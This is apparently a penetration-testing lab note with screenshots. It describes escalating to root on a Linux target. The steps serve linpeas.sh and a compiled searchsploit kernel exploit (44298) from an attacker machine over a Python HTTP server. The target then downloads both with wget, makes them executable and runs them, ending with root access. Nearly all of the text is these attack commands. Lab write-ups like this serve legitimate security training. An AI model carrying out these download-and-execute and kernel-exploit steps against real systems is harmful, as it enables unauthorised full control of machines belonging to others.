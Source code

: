 Privilege Escalation

Privilege Escalation

# Works
1. On Kali machine, go to the directory where linpeas.sh is stored, then create a python server
`python -m SimpleHTTPServer 5678`
![602ce5fd02a506063ac8ffe28c0703ca.png](../../../_resources/3a97b61490234990a7405c9d71a06538.png)

2. On the target, download linpeas.sh to the target's /tmp directory using wget
`wget http://192.168.119.214:5678/linpeas.sh /tmp`
![c1c55ed2ebdb3d6287fb961fd5b9d37c.png](../../../_resources/cf8c5c925ead43d0994c4cd9fb8a5448.png)

3. Notice that the netcat listener on Kali should show the GET request from the target 
![bf23de88ba4c3b82e509e5dc2891e9fa.png](../../../_resources/450592bdb87f44dcb746bcc3fd91e260.png)

4. Change the permissions so that linpeas.sh can be executed
`chmod +x linpeas.sh`
![18aff38436cae8ac49a7848fcb75a24b.png](../../../_resources/25ddb6396d1d46b4b0dc6552fe2e3c09.png)

5. Run linpeas.sh and redirect to a file.
`./linpeas.sh > linout.txt`
![ede281227540c1b7ccddeea1ffcddaa0.png](../../../_resources/7a9fad693a81410aaf7b93470470155d.png)

6. The first item that absolutely must be looked at is the OS. It is Linux version 4.4.0-116-generic.
![2ba16b0aa67ba4c3ef9eaa0eefb6e76e.png](../../../_resources/d8cfddb2e2d04654b528ec8218c8fa28.png)

7. Searchsploit 'Ubuntu 4.4.0-116' and download
`searchsploit ubuntu 4.4.0-116`
`searchsploit -m 44298`
8. Compile the exploit
`gcc 44298.c -o exploit`
![79c189655ceb919ca06edcf0d60a1b16.png](../../../_resources/a015f3a2a8a34455b862cfba9cc3c5f7.png)

9. Run the python simple server command in the directory where the compiled exploit is located
`python -m SimpleHTTPServer 5678`
![40c7c5ea352a0ed94070ef60c2b4b64b.png](../../../_resources/87e53c6b94e741c19eb6f1bcffa8ef4f.png)

10. From the target, download the exploit using wget
`wget http://192.168.119.214:5678/exploit`
![3cc4066727d728acb552d2fc52b0fcf1.png](../../../_resources/531530cd83e04abaadb0f27e4f59c215.png)

11.Change the permissions to make it executable
`chmod +x exploit`
![4fc76b88ed9f7b2bf8550c8f761a0b68.png](../../../_resources/6443b2e2f55c4ed6b03532bc2cac0098.png)

12. Run the exploit, we are now root!
`./exploit`
![9569cfc74dfa7307fdbc1dabdd0b8d53.png](../../../_resources/10c11b6c93674b2d885726b26cdf6d8c.png)









